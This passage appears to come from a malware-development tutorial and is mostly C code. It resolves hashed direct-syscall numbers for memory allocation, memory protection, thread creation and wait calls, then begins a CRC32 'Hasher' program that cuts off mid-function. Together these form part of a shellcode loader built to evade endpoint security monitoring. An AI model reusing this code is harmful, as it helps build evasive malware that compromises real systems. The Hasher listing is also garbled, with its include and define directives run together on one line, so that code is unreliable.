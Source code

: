 To populate the `g_Nt` global variable, the newly created function, `InitializeNtSyscalls`, will call `FetchNtSyscall` to initialize all members of `NTAPI_FUNC`.


```
BOOL InitializeNtSyscalls() {

	if (!FetchNtSyscall(NtAllocateVirtualMemory_CRC32, &g_Nt.NtAllocateVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtAllocateVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtAllocateVirtualMemory Is : 0x%0.2X \n", g_Nt.NtAllocateVirtualMemory.dwSSn);


	if (!FetchNtSyscall(NtProtectVirtualMemory_CRC32, &g_Nt.NtProtectVirtualMemory)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtProtectVirtualMemory \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtProtectVirtualMemory Is : 0x%0.2X \n", g_Nt.NtProtectVirtualMemory.dwSSn);


	if (!FetchNtSyscall(NtCreateThreadEx_CRC32, &g_Nt.NtCreateThreadEx)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtCreateThreadEx \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtCreateThreadEx Is : 0x%0.2X \n", g_Nt.NtCreateThreadEx.dwSSn);


	if (!FetchNtSyscall(NtWaitForSingleObject_CRC32, &g_Nt.NtWaitForSingleObject)) {
		printf("[!] Failed In Obtaining The Syscall Number Of NtWaitForSingleObject \n");
		return FALSE;
	}
	printf("[+] Syscall Number Of NtWaitForSingleObject Is : 0x%0.2X \n", g_Nt.NtWaitForSingleObject.dwSSn);

	return TRUE;
}

```
`NtAllocateVirtualMemory_CRC32`, `NtProtectVirtualMemory_CRC32`, `NtCreateThreadEx_CRC32`, and `NtWaitForSingleObject_CRC32` are the hash values of the respective syscalls.

### **Hasher Program**

The syscall hashes are generated using the *Hasher* program which contains the `crc32h` hashing function. Hasher prints the values of its `crc32h`'s function output.


```
#include <Windows.h>#include <stdio.h>#define SEED 0xEDB88320#define STR "_CRC32"unsigned int crc32h(char* message) {
    int i, crc;
    unsigned int byte, c;
    const unsigned int g0 = SEED, g1 = g0 >> 1,
        g2 = g0 >> 2, g3 = g0 >> 3, g4 = g0 >> 4, g5 = g0 >> 5,
        g6 = (g0 >> 6) ^ g0, g7 = ((g0 >> 6) ^ g0) >> 1;

    i = 0;
    crc = 0xFFFFFFFF;
    while ((byte = message[i]) != 0) {    // Get next byte.
        crc = crc ^ byte;
        c = ((crc << 31 >> 31) & g7) ^ ((crc << 30 >> 31) & g6) ^
            ((crc << 29 >> 31) & g5) ^ ((crc << 28 >> 31) & g4) ^
            ((crc << 27 >> 31) & g3) ^ ((crc << 26 >> 31) & g2) ^
```